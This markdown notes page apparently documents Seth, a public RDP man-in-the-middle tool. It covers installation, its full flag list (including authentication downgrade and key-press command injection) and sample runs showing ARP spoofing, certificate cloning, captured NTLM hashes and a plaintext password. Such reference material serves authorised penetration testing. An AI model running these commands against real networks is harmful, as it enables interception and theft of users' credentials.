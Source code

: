 ```yaml
---
title : "Seth"
# pre : ' '
description : "RDP credential sniffer - Man in the Middle RDP"
date : 2020-12-01T08:18:42+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Seth

RDP credential sniffer - Man in the Middle RDP

## Installation

Requirements:

```plain
sudo apt install dsniff tcpdump
```

```plain
git clone https://github.com/SySS-Research/Seth.git
```

## Usage

```plain
seth.py [-h] [-d] [-f] [-p LISTEN_PORT] [-b BIND_IP] [-g {0,1,3,11}]
               [-j INJECT] -c CERTFILE -k KEYFILE
               target_host [target_port]
```

## Flags

```plain
RDP credential sniffer -- Adrian Vollmer, SySS GmbH 2017

positional arguments:
  target_host           target host of the RDP service
  target_port           TCP port of the target RDP service (default 3389)

optional arguments:
  -h, --help            show this help message and exit
  -d, --debug           show debug information
  -f, --fake-server     perform a 'fake server' attack
  -p LISTEN_PORT, --listen-port LISTEN_PORT
                        TCP port to listen on (default 3389)
  -b BIND_IP, --bind-ip BIND_IP
                        IP address to bind the fake service to (default all)
  -g {0,1,3,11}, --downgrade {0,1,3,11}
                        downgrade the authentication protocol to this (default
                        3)
  -j INJECT, --inject INJECT
                        command to execute via key press event injection
  -c CERTFILE, --certfile CERTFILE
                        path to the certificate file
  -k KEYFILE, --keyfile KEYFILE
                        path to the key file
```

## Examples

#### Start MiTM attack

| Attacker IP | IP to ARP spoof for | Target RDP to connect to |
| :-: | :-: | :-: |
10.10.10.10 | 10.10.10.15 | 10.10.10.20

```plain
./seth.sh eth0 10.10.10.{10,15,20}
```

```plain
$ sudo ./seth.sh eth0 10.10.10.{10,15,20}
███████╗███████╗████████╗██╗  ██╗
██╔════╝██╔════╝╚══██╔══╝██║  ██║   by Adrian Vollmer
███████╗█████╗     ██║   ███████║   seth@vollmer.syss.de
╚════██║██╔══╝     ██║   ██╔══██║   SySS GmbH, 2017
███████║███████╗   ██║   ██║  ██║   https://www.syss.de
╚══════╝╚══════╝   ╚═╝   ╚═╝  ╚═╝
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[...]
[*] Cleaning up...
[*] Done
```

#### Capture of plaintext credentials

```plain
sudo ./seth.sh enp0s31f6 10.10.10.5 10.10.10.7 10.10.10.10
[*] Linux OS detected, using iptables as the netfilter interpreter
[*] Spoofing arp replies...
[*] Turning on IP forwarding...
[*] Set iptables rules for SYN packets...
[*] Waiting for a SYN packet to the original destination...
[+] Got it! Original destination is 10.10.10.10
[*] Clone the x509 certificate of the original destination...
[*] Adjust iptables rules for all packets...
[*] Run RDP proxy...
Listening for new connection
Connection received from 10.10.10.7:53063
Warning: RC4 not available on client, attack might not work
Downgrading authentication options from 11 to 3
Listening for new connection
Enable SSL
johndo@example.com:::7c70ee2cd148b341:ee85ef730780002e00370030000000000000000000
Tamper with NTLM response
Downgrading CredSSP
Connection lost ([Errno 104] Connection reset by peer)
[...REDACTED...]
Connection received from 10.10.10.7:53067
Warning: RC4 not available on client, attack might not work
Enable SSL
Listening for new connection
'NoneType' object has no attribute 'getsockopt'
Hiding forged protocol request from client
.\johndo@example.com:Welkom1234
[*] Cleaning up...
[*] Done
```

#### Example capture of hashes

![Example](images/example.png)

## URL List

* [GitHub.com - Seth](https://github.com/SySS-Research/Seth)
